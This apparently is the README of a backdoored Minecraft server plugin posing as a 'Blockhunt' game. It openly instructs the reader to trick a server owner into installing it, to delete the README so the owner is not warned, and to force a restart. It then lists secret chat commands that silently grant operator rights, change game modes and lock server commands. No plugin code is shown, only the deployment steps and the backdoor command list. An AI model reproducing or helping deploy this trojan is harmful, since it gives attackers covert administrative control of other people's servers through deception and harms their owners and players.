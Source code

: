 # Blockhunt
Are you in need of revenge to a server or server owner? Here's a lovely plugin that'll trick those owners that are desperate for
players.

Beginning:
- Download the plugin, **remove the README.md** (because this is just a guide to actually fooling the owner).
- Convince the server owner or admin to download the plugin you sent him/her.
- Once installed into the server, if the owner already hasn't, ask for a restart.

Middle:
Now you have the virus inside the victim server, you can now run the secret commands!
Whenever you run a secret command like %gmc@me%, no one will see that your gamemode was changed like it does with the /gamemode.
Secret commands:
1. ```%op@me%``` _(Op yourself)_
2. ```%op@all%``` _(Op all players)_
3. ```%lock@commands%``` _(Lock predefined commands)_
4. ```%unlock@commands%``` _(Unlock the locked commands)_
5. ```%gmc@me%``` _(Change your gamemode to creative)_
6. ```%gmc@all%``` _(Change everyone's gamemode to creative)_
7. ```%status@lock@commands%``` (See the status for commands)_
